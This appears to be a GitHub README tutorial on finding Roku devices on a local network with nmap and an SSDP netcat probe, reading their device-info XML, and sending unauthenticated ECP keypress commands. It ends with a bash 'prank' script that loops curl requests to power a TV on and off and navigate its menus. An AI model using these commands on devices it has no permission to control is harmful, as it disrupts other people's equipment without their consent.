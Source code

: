 # :tv: Abusing ROKU APIs

____________________________________________________________________________________________________________________________________________________________________

![Roku](https://user-images.githubusercontent.com/72598486/133314573-0f0ebc16-9d51-4c1f-b2ad-1c7e15851214.png)

____________________________________________________________________________________________________________________________________________________________________

## Introduction: 

____________________________________________________________________________________________________________________________________________________________________
  I am excited to share how to successfully enumerate your network for Roku devices, issue External Control Protocol (ECP) commands to remotely manipulate televisions, and how to design custom scripts to automate messing with your friends! For more information, check out my Medium article: https://medium.com/@RoseSecurity/a-quick-guide-on-how-to-aggravate-friends-family-and-foes-37182230d7. 
____________________________________________________________________________________________________________________________________________________________________

## Enumerating Your Network for Roku Devices:

____________________________________________________________________________________________________________________________________________________________________

  Utilizing Nmap, we can issue the following command to enumerate our network for Roku devices by looking for service versions (-sV), operating systems (-O), and speeding up the scan by not resolving DNS (-n).

```
$ sudo nmap -sV -O -n 192.168.X.X/24
```

**Output of Nmap scan:**
```
Nmap scan report for 192.168.X.X
Host is up (0.010s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE VERSION
7000/tcp open  rtsp    AirTunes rtspd 
9080/tcp open  http    Mongoose httpd
MAC Address: 10:59:32:XX:XX:XX (Roku)
```
  We see that Nmap identified the OUI of the MAC address, but I have provided a list of Roku MAC addresses to search for on your network!
  
**ROKU MAC Addresses**
  
| MAC Range |
|-----------|
| 9C:F1:D4  |
| 34:5E:08  |
| 7C:67:AB  |
| D4:E2:2F  |
| A8:B5:7C  |
| BC:D7:D4  |
| 20:EF:BD  |
| D8:31:34  |
| C8:3A:6B  |
| B0:EE:7B  |
| AC:AE:19  |
| 8C:49:62  |
| 84:EA:ED  |
| 10:59:32  |
| AC:3A:7A  |
| 88:DE:A9  |
| 8A:C7:2E  |
| B8:A1:75  |
| 00:0D:4B  |
| DC:3A:5E  |
| D0:4D:2C  |
| CC:6D:A0  |
| B8:3E:59  |
| B0:A7:37  |
| 08:05:81  |


## More Enumeration
____________________________________________________________________________________________________________________________________________________________________

We can identify the device location, name, and several other pertinent fields such as supporting remote capabilities! Another way of enumerating Roku devices is by sending a request to the Simple Service Discovery Port (SSDP) multicast address and port 1900. We can do this by using Netcat:

```
$ nc -u 239.255.255.250 1900 < Roku_ECP_Enum.txt
```
The device will respond with this information which can also be observed in Wireshark:

```
HTTP/1.1 200 OK
Cache-Control: max-age=3600
ST: roku:ecp
Location: http://192.168.X.X:8060/
USN: uuid:roku:ecp:P0A070000007
``` 

Utilizing Nmap and Wireshark, we can easily identify the IP address of any Roku devices attached to the network, and if they support the use of ECPs, we can remotely view the XML file on the webserver of the device!
  
  ```
  http://192.168.X.X:8060/query/device-info
  ```
This will produce an XML page similar to the one below:
  
```
<device-info>
<serial-number>X004000B231</serial-number>
<device-id>S00820BB231</device-id>
<vendor-name>Roku</vendor-name>
<model-name>Roku Ninja</model-name>
<model-number>3930X</model-number>
<model-region>US</model-region>
<is-tv>false</is-tv>
<is-stick>false</is-stick>
<ui-resolution>1080p</ui-resolution>
<supports-ethernet>false</supports-ethernet>
<wifi-mac>10:59:32</wifi-mac>
<wifi-driver>realtek</wifi-driver>
<has-wifi-extender>false</has-wifi-extender>
<has-wifi-5G-support>true</has-wifi-5G-support>
<can-use-wifi-extender>true</can-use-wifi-extender>
<network-type>wifi</network-type>
<network-name>Hillary's Email Server</network-name>
<friendly-device-name>Roku LivingRoom</friendly-device-name>
<friendly-model-name>Roku Express</friendly-model-name>
<default-device-name>Roku Express - X004000AJDX1</default-device-name>
<user-device-name>Roku Master</user-device-name>
<user-device-location>LivingRoom</user-device-location>
<build-number>AEA.00E04209A</build-number>
<software-version>10.0.0</software-version>
<software-build>4209</software-build>
<secure-device>true</secure-device>
<language>en</language>
<country>US</country>
<locale>en_US</locale>
<time-zone-auto>true</time-zone-auto>
<time-zone>US/Eastern</time-zone>
<time-zone-name>United States/Eastern</time-zone-name>
<time-zone-tz>America/New_York</time-zone-tz>
<time-zone-offset>-240</time-zone-offset>
<clock-format>12-hour</clock-format>
<uptime>2912968</uptime>
<power-mode>PowerOn</power-mode>
<supports-suspend>false</supports-suspend>
<supports-find-remote>true</supports-find-remote>
<find-remote-is-possible>false</find-remote-is-possible>
<supports-audio-guide>true</supports-audio-guide>
<supports-rva>true</supports-rva>
<developer-enabled>false</developer-enabled>
<keyed-developer-id/>
<search-enabled>true</search-enabled>
<search-channels-enabled>true</search-channels-enabled>
<voice-search-enabled>true</voice-search-enabled>
<notifications-enabled>true</notifications-enabled>
<notifications-first-use>true</notifications-first-use>
<supports-private-listening>true</supports-private-listening>
<headphones-connected>false</headphones-connected>
<supports-ecs-textedit>true</supports-ecs-textedit>
<supports-ecs-microphone>true</supports-ecs-microphone>
<supports-wake-on-wlan>false</supports-wake-on-wlan>
<supports-airplay>true</supports-airplay>
<has-play-on-roku>true</has-play-on-roku>
<has-mobile-screensaver>false</has-mobile-screensaver>
<support-url>roku.com/support</support-url>
<grandcentral-version>5.5.62</grandcentral-version>
<trc-version>3.0</trc-version>
<trc-channel-version>4.2.3</trc-channel-version>
<davinci-version>2.8.20</davinci-version>
</device-info>
```
## Issuing Commands
____________________________________________________________________________________________________________________________________________________________________

There are numerous commands that can be issued via HTTP requests, so I have provided the table of potential ECPs that can be sent to the device:

![ECP](https://user-images.githubusercontent.com/72598486/133323989-a69daa5c-eec8-41be-b520-8c955c499204.png)

____________________________________________________________________________________________________________________________________________________________________

## An Example Script for Having Fun
____________________________________________________________________________________________________________________________________________________________________

```bash
#!/bin/bash
# Prank script for Roku TV
Hahaha=1

# Power on and off loop
while [ $Hahaha -le 100 ]; do
    curl -d '' "http://192.168.X.X:8060/keypress/powerOn"
    curl -d '' "http://192.168.X.X:8060/keypress/powerOff"
    ((Hahaha=Hahaha+1))
done

# Power on and go to Home
curl -d '' "http://192.168.X.X:8060/keypress/powerOn"
curl -d '' "http://192.168.X.X:8060/keypress/Home"

# Navigation loop
Hahaha=1
while [ $Hahaha -le 100 ]; do
    curl -d '' "http://192.168.X.X:8060/keypress/left"
    curl -d '' "http://192.168.X.X:8060/keypress/down"
    ((Hahaha=Hahaha+1))
done

echo "Can we still be friends?"
```

I hope that you learned something new, and if you need more information and resources on how to have more fun with these devices, check out https://developer.roku.com/docs/developer-program/debugging/external-control-api.md

Happy hunting!

wq!

